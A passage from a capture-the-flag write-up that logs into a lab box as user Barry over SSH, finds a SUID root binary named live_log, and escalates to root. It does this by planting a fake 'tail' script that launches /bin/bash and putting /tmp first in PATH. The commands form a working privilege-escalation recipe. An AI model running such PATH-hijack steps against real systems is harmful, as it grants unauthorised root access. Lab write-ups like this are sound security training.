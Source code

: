 ```console
ssh -i id_rsa barry@<Target IP>
```
![Screenshot](Screenshot_21.png){: width="972" height="589" }

We are now logged in as Barry, let's grab the user flag and move on to privilege escalation.

![Screenshot](Screenshot_22.png){: width="972" height="589" }


## Privilege Escalation

I'll start by running a simple command to check for any privilege escalation opportunities. 

```console
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
![Screenshot](Screenshot_23.png){: width="972" height="589" }

What stands out here is `/home/joe/live_log`{: .filepath}. This is a binary that is owned by root and has the SUID bit set. This means that we can run it, and it will run with root privileges. Let's extract this back to our machine and analyze it further.

This can be done using `SCP`. The syntax for this case:

```console
scp -i id_rsa barry@<Target IP>:/home/joe/live_log .
```

### Analyzing /live_log

With the binary on our machine, I will use `Ghirdra` to analyze the it. Upon analyzing the strings, there is a string that says "tail -f /var/log/nginx/access.log". This can be exploited could potentially be exploited by altering `tail` and placing it in the path.

![Screenshot](Screenshot_24.png){: width="972" height="589" }


## Success: Root Flag
Back in the `SSH` session, let's try to exploit this. We can "create" our own `tail`, add it to the path, and then run `/live_log`{: .filepath}. This should allow us to become root. Running the following commands in the `/tmp`{: .filepath} will set up our `tail`, and then add `/tmp`{: .filepath} to the path.

```console
echo '/bin/bash' > tail
chmod 777 tail
export PATH=/tmp:$PATH
``` 

Now we can execute the file and check our privileges. 
![Screenshot](Screenshot_25.png){: width="972" height="589" }

We are now root and can grab the root flag.
![Screenshot](Screenshot_27.png){: width="972" height="589" }
